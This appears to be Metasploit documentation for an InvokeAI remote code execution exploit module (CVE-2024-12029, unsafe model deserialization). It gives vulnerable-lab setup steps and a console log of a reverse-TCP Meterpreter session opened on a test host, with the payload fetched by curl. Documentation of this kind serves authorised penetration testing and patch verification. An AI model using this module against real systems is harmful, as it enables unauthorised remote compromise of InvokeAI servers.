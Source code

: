 ## Vulnerable Application

InvokeAI has a critical vulnerability leading to remote code execution
in the /api/v2/models/install API through unsafe model deserialization.
The API allows users to specify a model URL, which is downloaded and loaded server-side using torch.load without proper validation.
This functionality allows attackers to embed malicious code in model files that execute upon loading.

The vulnerability affects:

    * 4.0.0 <= InvokeAI <= 5.4.2

This module was successfully tested on:

    * InvokeAI 5.3.1 installed on Ubuntu 22.04


### Installation

Follow the [official instructions](https://invoke-ai.github.io/InvokeAI/installation/manual/#walkthrough)

1. Install uv:

`curl -LsSf https://astral.sh/uv/install.sh | sh`

2. Create a directory for your installation:

```bash
mkdir ~/invokeai
cd ~/invokeai
```

3. Create a virtual environment in that directory:

`uv venv --relocatable --prompt invoke --python 3.11 --python-preference only-managed .venv`

4. Activate the virtual environment:

`source .venv/bin/activate`

5. Install the invokeai package:

```bash
uv pip install invokeai==5.3.1 --python 3.11 --python-preference only-managed --index=https://download.pytorch.org/whl/cpu --force-reinstall
```

6. Deactivate and reactivate your venv so that the invokeai-specific commands become available in the environment:

`deactivate && source .venv/bin/activate`

7. Edit ~/invokeai/invoke.yaml:

```yaml
  # Internal metadata - do not edit:
  schema_version: 4.0.2
  
  # Put user settings here - see https://invoke-ai.github.io/InvokeAI/features/CONFIGURATION/:
  host: 0.0.0.0 # serve the app on your local network
```

8. Run the application, specifying the directory you created earlier as the root directory:

`invokeai-web --root ~/invokeai`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/invokeai_rce_cve_2024_12029`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf > use exploit/linux/http/invokeai_rce_cve_2024_12029
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/invokeai_rce_cve_2024_12029) > options

Module options (exploit/linux/http/invokeai_rce_cve_2024_12029):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    9090             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      CdRqUbPlDQJ      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/invokeai_rce_cve_2024_12029) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 5.3.1 detected.
[*] Using URL: http://192.168.56.1:8081/Z8KmlibT
[*] Server started.
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:48294) at 2025-02-16 15:24:41 +0900
[*] Server stopped.

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
